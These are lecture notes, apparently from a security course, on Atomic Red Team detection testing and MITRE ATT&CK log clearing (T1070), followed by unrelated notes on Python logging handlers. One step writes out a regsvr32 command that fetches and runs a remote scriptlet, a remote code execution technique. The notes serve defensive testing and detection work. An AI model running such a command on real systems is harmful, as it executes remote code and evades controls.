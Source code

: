 # Lecture Notes: Log Clearing

## Atomic Testing Cycle

**Why**
- Why should we perform the Atomic Testing Cycle?

**What**
- What is the Atomic Testing Cycle?
  - Getting Started Testing with Atomic Tests
    - We suggest a phased approach to running a test and evaluating your results:
      1. Select a test
      1. Execute Test
      1. Collect Evidence
      1. Develop Detection
      1. Measure Progress
    - Best Practices
      - Be sure to get permission and necessary approval before conducting tests. Unauthorized testing is a bad decision.
      - Set up a test machine that would be similar to the build in your environment. Be sure you have your collection/EDR solution in place, and that the endpoint is checking in and active.
      - Spend some time developing a test plan or scenario. This can take many forms. An example test plan could be to execute all the Discovery phase items at once in a batch file, or run each phase one by one, validating coverage as you go.
    - **Select a test**
      - Select one or more Atomic Tests that you plan to execute.
    - **Execute Test**
      - In this example we will use Technique T1218.010 "Regsvr32" and Atomic Test "Regsvr32 remote COM scriptlet execution" (an RCE attack). This particular test is fairly easy to exercise since the tool is on all Windows workstations by default.
      - The details of this test, which are located [here](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md), describe how you can test your detection by simply running the below command:

        ```
        regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct scrobj.dll
        ```

    - **Collect Evidence**
      - What does your security solution observe?
        - You may see a file modification in the user’s profile.
        - You may detect network connections made by regsvr32.exe to an external IP.
        - There may be an entry in the proxy logs.
        - You may observe the scrobj.dll loading on Windows.
        - Or you might not observe any behavior on the endpoint or network.
      - This is why we test! We want to identify visibility gaps and determine where we need to make improvements.
    - **Develop Detection**
      - So you executed the test and none of your defenses fired – that’s why we test! Based on your observations and detection capabilities, it is time to use what you have to try to detect this event in your environment.
      - Once the detection is built, it is time to validate that the detection is working and that it is appropriately tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe without any suppression, you are going to be digging out from a mountain of false positives. But if you write it too narrow and it only detects regsvr32.exe with the exact command line `/s /u /i` then all an attacker has to do is slightly modify their command line to evade your detection.
      - Try detecting `regsvr32.exe /i` for suspicious activity.
    - **Measure Progress**
      - One of the goals is to try to measure your coverage/capabilities against the ATT&CK Matrix and to identify where you may have gaps.

**How**
- The Atomic Red Team project accepts public contributors (open-source style) at https://atomicredteam.io/contributing
- Atomic Philosophy
  - "Atomic Red Team welcomes all types of contributions as long as it is mapped to MITRE ATT&CK. A few guidelines:
  - Tests are made to be “easy”. If your Atomic Test is complicated and requires multiple external utilities/packages/Kali, we may ask that you simplify it.
  - TEST YOUR ATOMIC TEST! Be sure to run it from a few OSes/platforms before submitting a pull request to ensure everything is working correctly.
  - If sourcing from another tool/product (ex. generated command), be sure to cite it in the test’s description." -Atomic Red Team > Contributing

## Log Clearing

**Why**
- Why would an adversary want to delete logs?
  - Covering tracks
  - Damage integrity of log files
  - Part of the "defense evasion" tactic

**What**
- What is log clearing?
  - "Adversaries may delete or alter generated artifacts on a host system, including logs or captured files such as quarantined malware. Locations and format of logs are platform or product-specific, however standard operating system logs are captured as Windows events or Linux/macOS files such as Bash History and /var/log/*.
  - These actions may interfere with event collection, reporting, or other notifications used to detect intrusion activity. This that may compromise the integrity of security solutions by causing notable events to go unreported. This activity may also impede forensic analysis and incident response, due to lack of sufficient data to determine what occurred." -[MITRE ATT&CK T1070](https://attack.mitre.org/techniques/T1070/)
  - Example of log clearing:
    - S0089, a malware toolkit called BlackEnergy, uses a tool called KillDisk to delete Windows Event Logs ([Ref. WeLiveSecurity](https://www.welivesecurity.com/2016/01/03/blackenergy-sshbeardoor-details-2015-attacks-ukrainian-news-media-electric-industry/))
  - ATT&CK details
    - ID: T1070.001
    - Sub-technique of: T1070
    - Tactic: Defense Evasion
    - Platforms: Windows
    - System Requirements: Clearing the Windows event logs requires Administrator permissions
    - Permissions Required: Administrator
    - Data Sources: Command: Command Execution, Process: OS API Execution
    - Defense Bypassed: Anti Virus, Host Intrusion Prevention Systems, Log Analysis
    - Version: 1.0
    - Created: 28 January 2020
    - Last Modified: 29 March 2020
  - Log rotation can be used operationally to keep file sizes down

**How**
- How can an adversary clear logs?
- How can we reproduce this in our lab environment?
- Ref. [DEMO.md](DEMO.md)

# Lecture Notes: Logging Handlers

Handlers come into the picture when you want to configure your own loggers and send the logs to multiple places when they are generated. Handlers send the log messages to configured destinations like the standard output stream or a file or over HTTP or to your email via SMTP

A logger that you create can have more than one handler, which means you can set it up to be saved to a log file and also send it over email

Just like loggers, you can set the severity level in handlers. You might want logs with level `WARNING` and above to be logged to the console but everything with level `ERROR` and above should also be saved to a file.

The `StreamHandler` takes the info from the `LogRecord` to generate an output in the format specified and prints it to the console

The `FileHandler` takes the info from the `LogRecord` to generate an output in the format specified and writes it to a file
